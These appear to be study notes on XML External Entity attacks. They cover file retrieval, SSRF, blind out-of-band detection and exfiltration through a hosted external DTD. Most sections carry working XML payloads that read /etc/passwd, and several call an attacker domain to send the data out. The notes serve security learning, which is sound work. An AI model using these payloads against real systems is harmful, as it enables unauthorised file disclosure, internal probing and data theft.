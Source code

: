 ![[XXE Thumbnail.jpeg]]
# XML External Entities

XXE allows you to interfere with an app's processing of XML data, allowing attackers to view files on the app server filesystem and interact with the backend or external systems. Some apps use XML to transmit data between browser and server.

Apps usually use a standard library or platform API to process XML data. XML external entities are custom XML entities whose defined values are loaded from outside of the DTD where they are declared.

Various attacks happen including:

- Exploiting XXE to retrieve files
- Exploiting XXE to perform SSRF
- Exploiting blind XXE to exfiltrate data out-of-band
- Exploiting blind XXE to retrieve data via errors
# Recon

Manually testing for XXE generally involves:

- Testing for file retrieval by defining an external entity based on a well known OS file and using that entity in data that is returned in the app's response.
- Testing for blind XXE vulnerabilities by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system.
- Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an XInclude attack to try to retrieve a well known OS file.
- If the app allows uploading files with a SVG, XML, XLSX extension or other file formats that use or contain XML subcomponents, try injecting an XXE payload.
- Modifying the content type of the requests to XML type and see if the app still processes the modified data correctly. If so, injecting an XXE payload.
# XXE to Retrieve Files

To retrieve files, modify the submitted XML in two potential ways:

- Edit a DOCTYPE element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the app's response to make use of the defined external entity.

For example, a stock checker may submit some XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

If there's no defenses, you can exploit it to retrieve the `passwd` file by submitting:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

It defines an external entity `&xxe;` whose value is the contents of the `passwd` file and uses the entity within the productId value, causing the app's response to include the contents of the file.

>[!info]
>There are typically a large number of data values within submitted XML in real apps. Try testing each data node in the XML individually to see whether it appears within the response.
# XXE to Perform SSRF

XXE can also be used to perform SSRF where the server-side app can be induced to make HTTP requests to any URL the server can access.

To exploit, define an external XML entity using the URL to target, and use the defined entity within a data value. If you can use it within a data value returned in a response, you can view the response from the URL within the app's response.

If not, it will be a blind SSRF attack. For example, the following XXE will make a back end HTTP request to an internal system:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

If a response comes back with something like the following:

```bash
Invalid product ID: latest
```

Try adding `latest` to the end of the URL and re-submit to slowly find the full path.
# Blind XXE

Blind XXE occurs where the app is vulnerable, but no values are returned. There are two ways to find and exploit blind XXE:

1. Triggering out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
2. Triggering XML parser errors in a way that errors contain sensitive data.
# Detecting Blind XXE using OAST Techniques

Try detecting blind XXE using the same techniques, but trigger an out-of-band network interaction to a system you control. As an example:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

It may cause the server to make a back-end HTTP request to the specified URL. Try using a Collaborator payload and monitor for and DNS and HTTP requests to the domain. If present, it means the XXE attack was successful.
# Blind XXE via XML Parameter Entities

Sometimes regular entities rare blocked by input validation or XML parser hardening. If so, try using XML parameter entities instead. Parameter entities can only be referenced elsewhere within the DTD. The declaration of an XML parameter entity includes the `%` character before the entity name:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

Parameter entities are referenced using the `%` character such as:

```xml
%myparameterentity;
```

To test for blind XXE using parameter entities, try the following:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

It declares an XML parameter entity and then uses the entity within the DTD, potentially causing a DNS and HTTP request to the collaborator domain.
# Blind XXE to Exfiltrate Data via External DTD

To exfiltrate data via blind XXE, you must host a malicious DTD on a system and invoke the external DTD from within the in-band XXE payload. An example may be:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

It does as follows:

- Defines XML parameter entity containing the contents of `passwd`
- Defines an XML parameter entity containing a dynamic declaration of another XML parameter entity.
- The `exfiltrate` entity is evaluated by making an HTTP to the URL containing the value of the `file` entity within the query string.
- Uses the `eval` entity to cause the dynamic declaration of the `exfiltrate` entity to be performed.
- Uses the `exfiltrate` entity so its value is evaluated by requesting the specified URL.

To exploit, host the malicious DTD such as:

```http
http://web-attacker.com/malicious.dtd
```

And submit the following XXE payload to the vulnerable app:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

It declares an XML parameter entity and uses the entity within the DTD, causing the XML parser to fetch the external DTD and interpret it inline. The steps in the malicious DTD are executed and `passwd` is transmitted to the attacker.

>[!info]
>It may not work with some files with newlines as XML parsers fetch the URL using an API that validates the characters allowed to appear within the URL. If so, try using the FTP protocol instead. If still no success, other files may be needed.

